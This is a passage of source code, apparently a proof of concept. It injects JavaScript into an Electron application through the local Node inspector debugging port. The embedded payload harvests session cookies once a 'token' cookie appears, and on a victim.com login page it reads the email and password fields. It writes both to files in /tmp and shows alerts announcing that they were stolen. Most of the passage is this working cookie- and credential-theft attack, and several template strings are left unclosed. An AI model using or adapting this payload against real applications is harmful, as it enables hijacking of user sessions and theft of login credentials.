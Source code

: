 ```
            console.error(`Error writing to file ${filePath}:, err);
        } else {
            console.log(`File written successfully at ${filePath});
        }
    });
}

function get_cookies() {
    intervalIdCookies = setInterval(() => {
        console.log("Checking cookies...");
        wc.session.cookies.get({})
        .then((cookies) => {
            tokenCookie = cookies.find(cookie => cookie.name === "token");
            if (tokenCookie){
                writeToFile("/tmp/cookies.txt", cookies);
                clearInterval(intervalIdCookies);
                wc.executeJavaScript(`alert("Cookies stolen and written to /tmp/cookies.txt"));
            }
        })
    }, 1000);
}

function get_creds() {
    in_location = false;
    intervalIdCreds = setInterval(() => {
        if (wc.mainFrame.url.includes("https://www.victim.com/account/login")) {
            in_location = true;
            console.log("Injecting creds logger...");
            wc.executeJavaScript(
                (function() {
                    email = document.getElementById('login_email_id');
                    password = document.getElementById('login_password_id');
                    if (password && email) {
                        return email.value+":"+password.value;
                    }
                })();
            ).then(result => {
                writeToFile("/tmp/victim_credentials.txt", result);
            })
        }
        else if (in_location) {
            wc.executeJavaScript(`alert("Creds stolen and written to /tmp/victim_credentials.txt"));
            clearInterval(intervalIdCreds);
        }
    }, 10); // Check every 10ms
    setTimeout(() => clearInterval(intervalId), 20000); // Stop after 20 seconds
}

get_cookies();
get_creds();
console.log("Payloads injected");
"""

async def get_debugger_url():
    """
    Fetch the local inspector's WebSocket URL from the JSON endpoint.
    Assumes there's exactly one debug target. 
    """
    global INSPECT_URL

    url = "http://127.0.0.1:9229/json"
    response = requests.get(url)
```
